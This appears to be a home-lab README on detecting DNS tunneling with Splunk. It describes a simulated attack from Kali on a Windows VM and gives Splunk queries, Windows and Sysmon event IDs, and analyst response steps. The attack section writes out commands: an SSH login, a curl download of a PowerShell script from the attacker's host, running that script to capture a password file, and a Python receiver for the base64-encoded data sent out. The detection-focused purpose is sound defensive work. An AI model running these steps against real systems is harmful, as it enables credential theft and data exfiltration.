

# Detection Usecase 4 : DNS Tunneling


# Scenario Summary: 

An Attacker has attempted to logged in into the System by using credentials of a user and able to download a suspicious ps1 file,  
then executed the ps1 file which generated many DNS request to an unknown Domain Name , the request contain more than 15 character of subdomain which makking it suspicious.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and uploaded a PowerScript on it.  
```
ssh sshuser@192.168.0.103
```  
```
curl http://192.168.0.106/sender-dns-tunnel.ps1 -o 
```
2) Then executed the following command to capture a file which contain sensitive passwords.  
```
powershell .\sender-tunnel.ps1
``` 
3) Now Attacker has started receiving many data from Victim Machine in Base64 format with the help of a python script.  
```
python3 [dns_tunnel_capturer.py](<scripts/dns_tunnel_capturer.py>)
```  



 ******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH, Python Scripts, DNS tunneling.  
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon


 ******************************
 ******************************

# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Sysmon      | 11        | File Creation                    |

 ******************************
 ******************************

# Detection Query / Logic:

```spl 
- Search - Logged in attempt
index=* EventCode=3 OR EventCode=4624 LogonType=8 OR LogonType=10
```
```spl 
- Search - Command Execution or file creation
index=* EventCode=1 OR EventCode=11
```
```spl 
- Search - Suspicious Lookup Detection
index=* EventCode=1 nslookup.exe | table CommandLine, EventCode, _time
```


 ******************************
 ******************************

# Sample Alert Screenshot

1) User has logged in.  

  


2) Then attempted to download a ps1 file.  

  


3) After execution of the PowerShell many nslookup Command Execution was seen and it was trying to resolve an unknown Domain Name.  

  
  


 ******************************
 ******************************

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> If there is Situation like DNS Tunneling, then :
    -> Confirm the Detection - Verify logs and see the indicators(e.g.,Sysmon EventId=1(command which trying to request an unknown Domain Name), Unknown Domain Name has long base64 encoded Subdomains) and try to correlate it with unexpected login or unusual user behavior.  
    -> Isolate the system sending the DNSRequest and stop if any malicious processes is running and disable the user account and Block the IP.  
    -> Check for any Lateral Movement activity(e.g., UserAccount Creation(4720), Registry Modification(4657), Scheduled Tasks(4698) or Service Creation(4697)).  
    -> Collect the Evidence.  
    -> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  
